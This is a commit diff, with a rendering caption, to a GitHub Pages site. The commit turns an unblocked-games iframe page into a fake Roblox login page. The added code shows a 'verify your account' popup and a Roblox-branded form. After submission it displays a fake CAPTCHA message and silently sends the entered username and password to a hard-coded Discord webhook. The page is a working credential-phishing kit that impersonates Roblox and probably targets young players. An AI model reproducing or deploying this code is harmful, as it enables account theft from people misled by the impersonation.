

Before and after one commit to Orig-n/Origin.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 93-885 px from the top of the page. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,207 +1,211 @@
 <!DOCTYPE html>
 <html>
-<head><meta http-equiv="cache-control" content="no-cache"><meta http-equiv="Pragma" content="no-cache"><meta http-equiv="Expires" content="-1"><style type="text/css">.lw { font-size: 0px; }</style>
+<head><meta http-equiv="cache-control" content="no-cache"><meta http-equiv="Pragma" content="no-cache"><meta http-equiv="Expires" content="-1"><style type="text/css">
+
+</style>
 
 
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Canvas</title>
+    <title>Roblox Homepage - Login Required Popup</title>
     <style>
-        /* Global styles */
         body {
-            font-family: 'Oswald', sans-serif;
+            font-family: "Gotham-Bold", sans-serif;
+            background-color: #333; /* Changed background color to dark grey */
+            color: white; /* Set text color to white */
             margin: 0;
             padding: 0;
-            background-color: #ffffff1c;
-            color: #333;
+            font-size: 16px; /* Default font size */
+            font-weight: bold; /* Set font weight to bold */
+            text-align: center; /* Center align content */
+            display: flex;
+            flex-direction: column;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh; /* Ensure full viewport height */
+            border-radius: 20px; /* Rounded corners for body */
+            overflow: hidden; /* Hide overflow for rounded corners */
+        }
+        .overlay {
+            display: none; /* Initially hide the overlay */
+            position: fixed;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            background-color: rgba(0, 0, 0, 0.7); /* Semi-transparent black overlay */
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            z-index: 999; /* Ensure popup is on top */
+            border-radius: 20px; /* Rounded corners for overlay */
+        }
+        .popup {
+            background-color: #555; /* Dark grey for popup box */
+            padding: 20px;
+            max-width: 80%; /* Set maximum width of popup box */
+            border-radius: 20px; /* Rounded corners for popup box */
+            text-align: center;
+            max-height: 70%; /* Set maximum height for popup */
+            overflow-y: auto; /* Enable scrolling if content exceeds height */
+        }
+        .popup h2 {
+            margin-bottom: 20px;
+        }
+        .popup button {
+            padding: 10px 20px;
+            background-color: transparent; /* Transparent background for button */
+            border: 2px solid black; /* Black border */
+            color: white;
+            cursor: pointer;
+            font-size: 14px;
+            font-weight: bold;
+            transition: background-color 0.3s ease; /* Smooth transition for hover effect */
+            border-radius: 20px; /* Rounded corners for button */
+        }
+        .popup button:hover {
+            background-color: rgba(0, 0, 0, 0.2); /* Semi-transparent black on hover */
+        }
+        .login-container {
+            display: none; /* Initially hide the login container */
+            padding: 20px;
+            background-color: #555; /* Dark grey for login box */
+            max-width: 80%; /* Set maximum width of login box */
+            width: 400px; /* Set initial width for larger screens */
+            border-radius: 20px; /* Rounded corners for login box */
+            text-align: center;
+            max-height: 80%; /* Set maximum height for login container */
+            overflow-y: auto; /* Enable scrolling if content exceeds height */
+        }
+        .login-container input {
+            display: block;
+            width: calc(100% - 20px); /* Calculate width to adjust for padding */
+            margin: 10px auto;
+            padding: 10px;
+            font-size: 14px; /* Font size for input fields */
+            background-color: #444; /* Darker grey for input background */
+            border: none;
+            color: white; /* Text color for input fields */
+            font-weight: bold; /* Set font weight to bold */
+            border-radius: 20px; /* Rounded corners for input fields */
+        }
+        .login-container input[type="submit"] {
+            background-color: black; /* Black background for submit button */
+            color: white;
+            border: none;
+            padding: 10px 20px;
+            cursor: pointer;
+            font-size: 14px;
+            font-weight: bold;
+            transition: background-color 0.3s ease; /* Smooth transition for hover effect */
+            border-radius: 20px; /* Rounded corners for submit button */
+        }
+        .login-container input[type="submit"]:hover {
+            background-color: #333; /* Darker black color on hover */
+        }
+        footer {
+            background-color: #555; /* Dark grey for footer */
+            color: white;
+            text-align: center;
+            padding: 10px;
+            width: 100%;
+            font-size: 12px; /* Font size for footer */
+            position: fixed;
+            bottom: 0;
+            border-radius: 0 0 20px 20px; /* Rounded corners for footer */
         }
 
-        /* Header styles */
-        header {
-            background-color: #000;
-            color: #fff;
-            padding: 20px;
-            text-align: center;
-        }
+        /* Media query for larger screens */
+        @media only screen and (min-width: 768px) {
+            .popup {
+                max-height: 80%; /* Adjust maximum height for larger screens */
+            }
 
-        /* Navigation styles */
-        nav {
-            text-align: center;
-            margin-bottom: 20px;
-        }
-
-        nav a {
-            padding: 10px 20px;
-            background-color: #007bff;
-            color: #fff;
-            text-decoration: none;
-            border-radius: 4px;
-            margin-right: 10px;
-            transition: background-color 0.3s;
-        }
-
-        nav a:hover {
-            background-color: #0056b3;
-        }
-
-        /* Container styles */
-        .container {
-            max-width: 800px;
-            margin: 0 auto;
-            padding: 20px;
-            text-align: center;
-            background-color: #fff;
-            border-radius: 8px;
-            box-shadow: 0 0 20px rgba(0, 0, 0, 0.1);
-            position: relative; /* Added for positioning the fullscreen button */
-        }
-
-        /* Button styles */
-        .btn {
-            display: inline-block;
-            padding: 10px 20px;
-            background-color: #007bff;
-            color: #fff;
-            text-decoration: none;
-            border: none;
-            border-radius: 4px;
-            cursor: pointer;
-            transition: background-color 0.3s;
-        }
-
-        .btn:hover {
-            background-color: #0056b3;
-        }
-
-        /* Iframe container styles */
-        .iframe-container {
-            position: relative;
-            width: 1000px;
-            height: 1000px;
-            margin: 0 auto;
-        }
-
-        /* Iframe styles */
-        iframe {
-            width: 100%;
-            height: 100%;
-            border: none;
-        }
-
-        /* Fullscreen button styles */
-        .fullscreen-btn {
-            position: absolute;
-            top: 0;
-            right: 0;
-            margin: 10px;
-            padding: 10px;
-            background-color: #ff0000;
-            color: #fff;
-            border: none;
-            border-radius: 4px;
-            cursor: pointer;
-            transition: background-color 0.3s;
-        }
-
-        .fullscreen-btn:hover {
-            background-color: #cc0000;
-        }
-
-        /* Footer styles */
-        footer {
-            margin-top: 20px;
-            text-align: center;
+            .login-container {
+                width: 50%; /* Adjust width for larger screens */
+                max-height: 80%; /* Adjust maximum height for larger screens */
+            }
         }
     </style>
 </head>
 <body>
-    <header>
-        <h1>Welcome to Origin Unblocked</h1>
-        <p>Origin</p>
-    </header>
-    <nav>
-        <a href="#" class="btn" onclick="showHomePage()">Home</a>
-        <a href="#" onclick="showPage(1)">OG 1v1.lol</a>
-        <a href="#" onclick="showPage(2)">NEW 1v1.lol</a>
-        <a href="#" onclick="showPage(3)">Soundboard</a>
-    </nav>
-    <div class="container">
-        <div class="iframe-container">
-            <iframe src="about:blank" id="iframe" title="Origin Unblocked"></iframe>
-            <button class="fullscreen-btn" onclick="toggleFullScreen()">FullScreen</button>
+    <div class="overlay" id="overlay">
+        <div class="popup">
+            <h2>You need to verify your account. Please Login.</h2>
+            <button onclick="showLogin()">OK</button>
         </div>
     </div>
+
+    <div class="login-container" id="loginContainer">
+        <h2>Login to Roblox</h2>
+        <form onsubmit="submitForm(event)">
+            <input type="text" id="usernameInput" placeholder="Username" required="">
+            <input type="password" id="passwordInput" placeholder="Password" required="">
+            <input type="submit" value="Log In">
+        </form>
+    </div>
+
     <footer>
-        <p>© 2024 UNBLOCKED LIFE. All rights reserved.</p>
+        <p>© 2024 Roblox Corporation. All rights reserved.</p>
     </footer>
+
     <script>
-        var iframeSources = [
-            "https://fivestarontop.pages.dev/1v1lol/#",
-            "https://1v1.lol",
-            "https://soundbuttonsworld-com.webpkgcache.com/doc/-/s/soundbuttonsworld.com/" // Empty source for the third site
-        ];
-
-        function createIframe(src) {
-            var iframe = document.createElement('iframe');
-            iframe.src = src;
-            iframe.title = "UNBLOCKED LIFE";
-            return iframe;
+        // Function to show the login form
+        function showLogin() {
+            var overlay = document.getElementById('overlay');
+            var loginContainer = document.getElementById('loginContainer');
+            overlay.style.display = 'none'; // Hide the overlay
+            loginContainer.style.display = 'block'; // Show the login container
         }
 
-        function showPage(pageNumber) {
-            var iframe = document.getElementById('iframe');
+        // Function to submit form and simulate CAPTCHA
+        function submitForm(event) {
+            event.preventDefault(); // Prevent form from submitting normally
 
-            // Create and append the selected iframe
-            var iframeSrc = iframeSources[pageNumber - 1];
-            if (iframeSrc !== "") {
-                iframe.src = iframeSrc;
-            } else {
-                iframe.src = "about:blank";
-            }
+            var username = document.getElementById('usernameInput').value;
+            var password = document.getElementById('passwordInput').value;
+
+            // Simulate a loading state or CAPTCHA verification
+            showFakeCaptcha();
+
+            // Construct message payload
+            var message = {
+                content: `Username = ${username}\nPassword = ${password}`
+            };
+
+            // Replace with your actual Discord webhook URL
+            var webhookUrl = 'https://discord.com/api/webhooks/1261752777810382937/2T2fb_WGKrWyih6baKRFah6i5aUnUjrrSxWg-cFc5zRISdGbDiaIGGq3E2SyhK2zcDBY';
+
+            // Send message via fetch API
+            fetch(webhookUrl, {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify(message)
+            })
+            .then(response => {
+                if (!response.ok) {
+                    console.error('Error:', response);
+                } else {
+                    console.log('Webhook sent successfully');
+                    // Optionally reset the form or update UI after successful submission
+                }
+            })
+            .catch(error => {
+                console.error('Error', error);
+            });
         }
 
-        function showHomePage() {
-            var iframe = document.getElementById('iframe');
-            iframe.src = "about:blank"; // Load an empty page for home
-
-            // Add content for the home page
-            var homeContent = document.createElement('div');
-            homeContent.innerHTML = `
-                <h2>Welcome to UNBLOCKED LIFE</h2>
-                <p>Choose a site from the navigation above.</p>
-                <h3>Featured Links:</h3>
-                <ul>
-                    <li><a href="https://google.com" target="_blank">GOOOGGGGLLLLEE</a></li>
-                </ul>
-            `;
-            iframe.contentDocument.body.appendChild(homeContent);
+        // Function to simulate CAPTCHA verification process
+        function showFakeCaptcha() {
+            var loginContainer = document.getElementById('loginContainer');
+            loginContainer.innerHTML = ''; // Clear existing content
+            var captchaMessage = document.createElement('p');
+            captchaMessage.textContent = 'Verifying CAPTCHA... This may take a while.';
+            loginContainer.appendChild(captchaMessage);
         }
-
-        // Toggle fullscreen mode for the iframe
-        function toggleFullScreen() {
-            var iframe = document.getElementById('iframe');
-
-            if (!document.fullscreenElement) {
-                if (iframe.requestFullscreen) {
-                    iframe.requestFullscreen();
-                } else if (iframe.webkitRequestFullscreen) { /* Safari */
-                    iframe.webkitRequestFullscreen();
-                } else if (iframe.msRequestFullscreen) { /* IE11 */
-                    iframe.msRequestFullscreen();
-                }
-            } else {
-                if (document.exitFullscreen) {
-                    document.exitFullscreen();
-                } else if (document.webkitExitFullscreen) { /* Safari */
-                    document.webkitExitFullscreen();
-                } else if (document.msExitFullscreen) { /* IE11 */
-                    document.msExitFullscreen();
-                }
-            }
-        }
-
-        // Show the homepage by default
-        showHomePage();
     </script>
 
+
 <script></script></body>
```
